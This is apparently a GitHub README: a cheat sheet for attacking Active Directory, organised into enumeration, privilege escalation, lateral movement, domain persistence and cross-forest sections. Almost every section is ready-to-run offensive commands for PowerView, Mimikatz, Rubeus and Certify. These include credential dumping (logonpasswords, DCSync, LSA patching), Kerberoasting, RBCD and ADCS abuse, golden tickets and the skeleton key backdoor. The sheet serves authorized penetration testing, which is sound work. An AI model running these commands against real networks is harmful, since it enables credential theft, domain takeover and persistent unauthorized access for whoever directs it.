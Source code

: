 # Active Directory Exploitation Cheat Sheet

[![Tech](https://img.shields.io/badge/tech-ActiveDirectory-blue)](https://microsoft.com/activedirectory) [![License](https://img.shields.io/github/license)](https://github.com)

> This cheat sheet is inspired by the [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) repo and curated for internal AD exploitation.

![Just Walking The Dog](https://github.com/buftas/Active-Directory-Exploitation-Cheatsheet/blob/master/WalkTheDog.png)

---

## Contents

* [Tools](#tools)
* [Domain Enumeration](#domain-enumeration)
* [Local Privilege Escalation](#local-privilege-escalation)
* [Lateral Movement](#lateral-movement)
* [Domain Privilege Escalation](#domain-privilege-escalation)
* [Domain Persistence](#domain-persistence)
* [Cross-Forest Attacks](#cross-forest-attacks)

---

## Tools

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [Mimikatz](https://github.com/gentilkiwi/mimikatz)
* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [BloodHound](https://github.com/BloodHoundAD/BloodHound)
* [Certify](https://github.com/GhostPack/Certify)
* [Powermad](https://github.com/Kevin-Robertson/Powermad)
* [Adalanche](https://github.com/lkarlslund/adalanche)

---

## Domain Enumeration

### PowerView Examples

```powershell
Get-Domain
Get-DomainUser -Identity <username> -Properties *
Find-DomainUserLocation
Get-DomainComputer -Ping
Get-DomainGroupMember -Identity 'Domain Admins'
Get-DomainTrust
Get-ForestTrust
```

\:mag\_right: **Tips**: Export results for later analysis:

```powershell
Get-DomainUser | Export-CliXml .\DomainUsers.xml
```

### AD Module Examples

```powershell
Get-ADUser -Filter * -Properties *
Get-ADComputer -Filter *
Get-ADDomainController
Get-ADTrust -Filter *
```

---

## Local Privilege Escalation

* [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
* [RoguePotato](https://github.com/antonioCoco/RoguePotato)
* [CVE-2021-36934](https://github.com/cube0x0/CVE-2021-36934)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1)

### Examples

```powershell
whoami /groups
icacls C:\ /findsid:S-1-5-32-544
```

---

## Lateral Movement

### PowerShell Remoting

```powershell
Enter-PSSession -ComputerName <hostname>
Invoke-Command -ComputerName <host> -ScriptBlock {whoami}
```

### Mimikatz Token Stealing

```text
privilege::debug
token::elevate
sekurlsa::logonpasswords
```

---

## Domain Privilege Escalation

### Kerberoasting

```powershell
Get-NetUser -SPN
Invoke-Kerberoast
```

### ASREPRoasting

```powershell
Get-DomainUser -PreauthNotRequired
Invoke-ASREPRoast
```

### RBCD

```powershell
New-MachineAccount
Set-DomainObject -Set @{msds-allowedtoactonbehalfofotheridentity=...}
Rubeus.exe s4u /user:<machine> /impersonateuser:Administrator /ptt
```

### ADCS Abuse

```powershell
Certify.exe find /vulnerable /quiet
Rubeus.exe asktgt ... /certificate:cert.pfx /ptt
```

---

## Domain Persistence

### Golden Ticket

```powershell
Invoke-Mimikatz -Command "lsadump::lsa /patch"
Invoke-Mimikatz -Command "kerberos::golden ... /ptt"
```

### DCSync

```powershell
lsadump::dcsync /user:<domain\\user>
```

### Skeleton Key

```powershell
Invoke-Mimikatz -Command "misc::skeleton"
```

---

## Cross-Forest Attacks

### Trust Abuse

```powershell
lsadump::trust /patch
kerberos::golden /service:krbtgt /target:<trusteddomain>
```

### Rubeus Trust Ticket

```powershell
Rubeus.exe asktgs /ticket:<kirbi> /service:cifs/target.domain
```

---

### \:link: References

* [PayloadAllTheThings - AD](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Active%20Directory%20Attack%20Cheatsheet)
* [Harmj0y - Blog](https://www.harmj0y.net/blog/)
* [ADSecurity.org](https://adsecurity.org)

---

> ⚠️ This cheat sheet is for educational and authorized security testing purposes only.

